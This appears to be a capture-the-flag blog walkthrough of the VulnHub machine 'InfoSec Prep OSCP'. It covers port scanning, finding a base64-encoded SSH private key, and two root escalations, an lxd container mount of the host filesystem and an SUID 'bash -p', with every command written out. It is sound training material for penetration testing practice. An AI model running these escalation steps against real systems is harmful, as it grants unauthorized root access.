```yaml
---
layout: post
title: InfoSec Prep OSCP - Vuln Hub Machine
description: >
    Detailed walkthrough  of the machine Infosec Prep OSCP that was released on VulnHub 11 Jul 2020 by FalconSpy 
sitemap: false
categories: [VulnHub]
permalink: /:categories/InfoSec_Prep_OSCP.html
---
```

* toc
{:toc .large-only}

## Machine Summary
Machine has a web application running, upon enumerating the directories /secret.txt contains a SSH Private key which is encoded in base64. After decryption, we can login as user **oscp** with the SSH Private key. we can esclate the privileges to root in two ways 1. Exploiting the lxd group 2. Exploiting the SUID - Bash

## Nmap Scan
As the golden rule i started with nmap scan
```bash
nmap -sC -sV -p- 192.168.0.101
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/1.png)
It has two ports open 

| Port         | Service           |
|:-------------|:------------------|
| 22           | ssh               |
| 80           | http              |
| 33060        | mysqlx            |

## Enumeration on Port 80

I started to enumerate on the site, it was a wordpress site so i ran a wpscan on it but nothing poped up. I manually enumerated on the site but i ended up with no usefull information for enumeration
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/2.png)

I ran gobuster on the site to enumerate the files and directories
```bash
gobuster dir -u http://192.168.0.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,conf
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/3.png)

secret.txt seems to be interesting, I opened it on the browser

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/5.png)

## Acquiring User Shell
It was encoded on base64 so i decoded it, viewing that it was a SSH private key 
```bash
echo "Base64_Hash" |base64 -d >> id_rsa
```
We need some usernames to login through ssh using the private key so i tried guessing username and username ***oscp*** worked.
We also need to add permissions to the private key
```bash
chmod 600 id_rsa
```
I logged in onto the machine using the private key for the user oscp
```bash
ssh -i id_rsa oscp@192.168.0.101
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/6.png)

## Privilege Escalation

I enumerated the machine with current privilege as oscp, found two things that could grant us root shell

1. User is part of lxd group
2. Suid was configured for /usr/bin/bash

By these two ways, we can proceed to root.

## Privilege Escalation through Exploiting lxd group 

**LXC** —short for “Linux containers”, is a solution for virtualizing software at the operating system level within the Linux kernel.

**LXD** is a management API for dealing with LXC containers on Linux systems. It will perform tasks for any members of the  local lxd group.
ie. a low privilege user can create a bridge between sockets on the host and its containers. when bridging from an existing socket on the host to a new socket in a container, it makes the connection with the credentials of the LXD service. so when user speaks to the container, the messages (command) and it lands on the container with root privileges (commands are executed with the root)

Executing lxc directly didn't work so i tried executing it with the full path of the binary file ie. /snap/bin/lxc
```bash
/snap/bin/lxc
```
First i created a storage pool
```bash
/snap/bin/lxd init
```
I moved on with the default settings, now we need to create a container called test 
```bash
/snap/bin/lxc init ubuntu:18.04 test -c security.privileged=true
```
We configure that container such that all the files and folders of the host is copied or present in /mnt/root directory
```bash
/snap/bin/lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
```
Now we need to start the container called test
```bash
/snap/bin/lxc start test
```
We execute the container
```
/snap/bin/lxc exec test bash
```

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/7.png)

Now we go into the directory **/mnt/root/root** to get the flag.txt

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/8.png)

**This exploit methodolgy will only work when the target machine has access to internet**
{:.note title="Attention"}

## Exploiting the misconfigured SUID - bash

**SUID** - SUID is nothing but a special permission bit available in Linux, that achieves this with a lot of ease. If you are the owner of an executable file, with the help of SUID permission set, other users will be running the executable with your  permission and not theirs. 

We can list the binaries with SUID permissions using the command below
```bash
find / -perm -u=s -type f 2>/dev/null
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/9.png)
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/10.png)

Bash was the juicy binary. we can exploit it to get the root privilege

[**GetFoBins**](https://gtfobins.github.io/#+suid)

```bash
bash -p
``` 
This granted us the shell with root privilege

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/11.png)

Happy Hacking !